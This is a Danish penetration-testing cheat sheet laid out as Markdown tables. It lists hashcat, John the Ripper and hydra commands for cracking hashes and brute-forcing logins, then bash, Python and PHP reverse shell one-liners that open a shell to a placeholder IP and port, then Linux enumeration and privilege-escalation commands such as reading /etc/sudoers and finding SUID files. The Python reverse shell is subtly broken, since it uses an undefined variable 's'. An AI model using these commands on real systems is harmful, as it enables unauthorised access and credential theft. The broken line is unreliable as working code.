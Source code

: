## Password Cracking
| Kommando | Beskrivelse | Vigtige Flags |
|----------|-------------|---------------|
| `hashcat`                                                        | Password-cracking værktøj, understøtter mange algoritmer og angrebsmetoder. | `-m`: Hash-algoritme (f.eks. `-m 3200` er bcrypt).<br>`-a`: Angrebsmodus (f.eks. `0` dictionary attack, `3` brute force). |
| `hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt` | Bruger Hashcat med dictionary-angreb på hashes af typen bcrypt. | `-m 3200`: bcrypt hashes.<br>`-a 0`: Dictionary-angreb (ordliste).<br>`hash.txt`: Fil med hash-værdier.<br>`rockyou.txt`: Standard ordliste til password cracking. |
| `john hash.txt`                                                  | Simpelt password cracking med John the Ripper. | Ingen flags (simpel cracking). |
| `john --wordlist=/path/to/wordlist.txt hash.txt`                 | Dictionary-angreb med ordliste. | `--wordlist`: Angiver ordliste (dictionary attack). |
| `john --format=bcrypt hash.txt`                                  | Password cracking med specifik algoritme (bcrypt). | `--format`: Angiver hash-algoritme (f.eks. bcrypt, md5, sha256). |
| `john --show hash.txt`                                           | Viser crackede passwords fra John the Ripper. | `--show`: Vis crackede passwords. |
| `hydra -l <user> -P <wordlist> <ip> <service>`                   | Brute-force login mod service med ordliste.                | `-l`: Specificér enkelt username.<br>`-P`: Ordlistens sti.    |

## Reverse Shell Eksempler
| Reverse Shell Eksempler | Beskrivelse |
|-------------------------|-------------|
| `bash -i >& /dev/tcp/<ip>/<port> 0>&1` | Enkel bash reverse shell |
| `python3 -c 'import socket,subprocess,os;socket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Python reverse shell (lang version) |
| `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&1");'` | PHP reverse shell |

## Linux Enumeration & Privilege Escalation
| Kommando | Beskrivelse |
|----------|-------------|
| `uname -a`                             | Viser information om systemet (OS, kerneversion m.m.).            |
| `cat /etc/issue`                       | Viser information om operativsystemets distribution.              |
| `cat /etc/passwd`                      | Lister alle systembrugere.                                        |
| `sudo -l`                              | Viser hvilke kommandoer brugeren kan køre med root/sudo-rettigheder.                                                                                                                                                |
| `id`                                   | Viser nuværende brugers ID samt gruppetilhørsforhold.             |
| `crontab -l`                           | Lister cronjobs (planlagte opgaver) for nuværende bruger.         |
| `cat /etc/crontab`                     | Viser systemets cronjobs, som muligvis kører med højere privilegier. |
| `find / -perm -4000 2>/dev/null`       | Finder alle filer med SUID-bit sat (kan udnyttes til privilege escalation). |
| `cat /etc/sudoers`                     | Viser konfiguration af sudo-privilegier på systemet.              |

## Filhåndtering
| Kommando | Beskrivelse | Nyttige flags |
|----------|-------------|---------------|
| `ls`                            | Lister filer og mapper                   | `-l`: detaljeret visning<br>`-a`: vis skjulte filer |
| `pwd`                           | Viser nuværende mappe                    | Ingen flags nødvendige                |
| `cd <mappe>`                    | Skifter mappe                            | Brug `..` for mappe op                |
| `cat <fil>`                     | Viser indhold af en fil                  | Ingen flags nødvendige                |
| `nano <fil>`                    | Enkel teksteditor til at redigere filer  | Ingen flags nødvendige                                                                                                                                                                |
| `touch <fil>`                   | Opretter tom fil                         | Ingen flags nødvendige                |
| `mkdir <mappe>`                 | Opretter en ny mappe                     | `-p`: opretter mellemmapper           |
| `rm <fil>`                      | Sletter fil                              | `-r`: rekursivt (mapper)<br>`-f`: tvinger sletning |